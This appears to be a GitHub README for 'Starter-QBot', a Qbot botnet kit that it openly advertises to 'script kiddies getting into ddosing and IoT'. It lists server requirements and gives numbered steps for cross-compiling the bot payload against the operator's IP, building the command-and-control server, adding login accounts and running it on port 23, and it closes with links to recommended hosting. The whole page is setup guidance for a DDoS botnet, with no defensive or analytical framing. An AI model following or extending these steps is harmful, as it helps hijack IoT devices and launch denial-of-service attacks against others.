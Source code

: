 <h2>Starter-QBot</h2>
<p>This is a starter Qbot for a script kiddies getting into ddosing and IoT.</p>

<div>
  <h2>Requirements</h2><lu>
  <li>A VPS Server (2GB Ram & 2v Cores)
  <li>Centos 6.9 or Debian 9 or above
    </lu>

<div><h2>Tutorial</h2>
<pre><code> _____ _____     _      _____     _   
|     | __  |___| |_   |_   _|_ _| |_ 
|  |  | __ -| . |  _|    | | | | |  _|
|__  _|_____|___|_|      |_| |___|_|  
   |__|                               by D3fe4ted

1. sudo apt install python screen gcc nano perl
2. go to client and change (ip)
3. python2 cc7.py client.c (ip)
4. Save your payload
5. gcc server.c -o server -pthread
6. nano login.txt (username password role mm/dd/yy)
7. screen ./server 23 1000 (port)
8. sudo ./server 23 1000 (port) (If step 7 doesn't work)</pre></code>
   <div>

<div>
  <h2>Recommended Hosting</h2><lu>
  <li><a href="https://sacred.sbs/">Sacred Hosting</a>
  <li><a href="https://www.cloudways.com/en/">Cloudways</a>
  <li><a href="https://crazyrdp.com/linux-vps-hosting/">CrazyRDP</a>
    <div>
